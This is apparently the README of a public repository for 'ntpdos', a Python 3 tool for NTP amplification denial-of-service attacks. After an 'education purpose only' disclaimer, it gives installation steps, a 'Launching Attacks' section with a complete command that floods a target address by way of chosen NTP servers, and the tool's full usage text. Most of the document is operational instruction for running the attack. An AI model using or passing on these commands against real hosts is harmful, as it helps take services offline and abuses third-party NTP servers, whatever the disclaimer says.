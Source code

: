 # NTP DoS

An NTP DoS script rewritten from vpnguy-zz's ntpdos script using Python 3.

**This script is for education purpose only. Please do not use it for any other purposes. The author does not assume any responsibilities for abusive uses of this script.**

## Installation

```shell
# clone the repository
https://github.com/k4yt3x/ntpdos.git

# enter the repository directory
cd ntpdos/src

# install dependencies
pip3 install -U -r requirements.txt
```

## Launching Attacks

This following command launches an attack against `10.0.0.1` using NTP servers `192.168.0.1` and `ntp.example.com` with 100 packets sent to each of the NTP servers.

```shell
python3 ntpdos.py -t 10.0.0.1 -n 192.168.0.1 -n ntp.example.com -c 100
```

## Full Usages

```console
usage: ntpdos [-h] -t TARGET -n NTP_SERVER [-c COUNT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        address of the target host (default: None)
  -n NTP_SERVER, --ntp_server NTP_SERVER
                        address of NTP servers (default: None)
  -c COUNT, --count COUNT
                        number of packets to send with each of the NTP servers
                        (default: None)
```
